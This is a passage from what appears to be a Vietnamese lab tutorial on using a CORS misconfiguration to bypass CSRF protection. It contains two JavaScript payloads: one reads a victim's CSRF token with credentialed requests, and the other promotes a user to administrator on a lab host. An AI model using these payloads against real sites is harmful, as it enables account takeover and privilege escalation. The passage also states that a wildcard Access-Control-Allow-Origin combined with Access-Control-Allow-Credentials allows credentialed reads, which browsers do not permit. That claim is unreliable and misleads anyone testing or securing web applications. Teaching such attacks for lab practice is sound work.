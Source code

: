 1. **Gửi yêu cầu cross-origin** để lấy token CSRF hợp lệ.
2. **Đọc token CSRF** từ phản hồi.
3. **Gửi yêu cầu thay đổi trạng thái** kèm theo token CSRF hợp lệ.

Vì tất cả các yêu cầu này đều được thực hiện trong phiên của nạn nhân, token CSRF sẽ hợp lệ, ngay cả khi được kiểm tra đúng cách.

**Yêu cầu**:
- Cookie phiên cần được gửi kèm theo yêu cầu cross-origin từ JavaScript. Để điều này xảy ra, ứng dụng web phải thiết lập thuộc tính **SameSite=None** và **Secure** cho cookie, cho phép cookie được gửi qua kết nối HTTPS.

#### **3. Phân tích ứng dụng web và phát hiện CORS Misconfiguration**

Giả sử chúng ta phát hiện rằng ứng dụng web tại `https://vulnerablesite.htb` thiết lập các header sau trong phản hồi:

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

Điều này cho phép các yêu cầu cross-origin được gửi kèm thông tin xác thực (cookies), ngay cả khi các biện pháp bảo vệ CSRF được triển khai.

#### **4. Khai thác CORS Misconfiguration để vượt qua CSRF Protection**

Ứng dụng web có chức năng thăng cấp người dùng lên quyền quản trị viên, và yêu cầu POST được bảo vệ bởi token CSRF. Token CSRF được trả về khi gửi yêu cầu GET đến `/profile.php`.

**Payload để lấy CSRF Token**:

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://vulnerablesite.htb/profile.php', false);
xhr.withCredentials = true;
xhr.send();

var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(doc.getElementById('csrf').value);
```

- **Giải thích**:
  - `xhr.open()`: Mở một yêu cầu GET đến `/profile.php`.
  - `xhr.withCredentials = true`: Gửi yêu cầu kèm theo cookie phiên của nạn nhân.
  - `xhr.responseText`: Chứa HTML trả về, trong đó có chứa token CSRF.
  - `csrftoken`: Lấy token từ phần tử HTML có ID là `csrf`.

**Payload để gửi yêu cầu CSRF**:

```javascript
var csrf_req = new XMLHttpRequest();
var params = `promote=htb-stdnt&csrf=${csrftoken}`;
csrf_req.open('POST', 'https://vulnerablesite.htb/profile.php', false);
csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
csrf_req.withCredentials = true;
csrf_req.send(params);
```

